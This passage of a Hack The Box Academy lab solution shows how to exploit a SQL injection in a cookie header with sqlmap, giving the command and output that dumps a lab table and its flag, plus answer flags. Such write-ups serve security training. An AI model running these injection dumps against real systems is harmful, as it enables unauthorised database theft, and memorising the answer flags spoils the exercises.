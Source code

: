 Answer: `HTB{700_much_c0n6r475_0n_p057_r3qu357}`

# Running SQLMap on an HTTP Request

## Question 2

### "What's the contents of table flag3? (Case #3)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #3" to notice that they need to exploit the vulnerable cookie header `id`:

![[HTB Solutions/CBBH/z. images/96ee9cd387f07c073f74d24440334bc6_MD5.jpg]]

Thus, the `sqlmap` command will be as follows:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case3.php' -H 'Cookie: id=*' --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:30991/case3.php' -H 'Cookie: id=*' --batch --dump

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 17:23:43 /2022-09-29/

<SNIP>

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[17:23:43] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid

[17:23:46] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)' injectable

<SNIP>

[17:25:14] [INFO] fetching columns for table 'flag3' in database 'testdb'
[17:25:14] [INFO] retrieved: 'id','int(11)'
[17:25:14] [INFO] retrieved: 'content','varchar(512)'
[17:25:14] [INFO] fetching entries for table 'flag3' in database 'testdb'                       
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+

<SNIP>
```
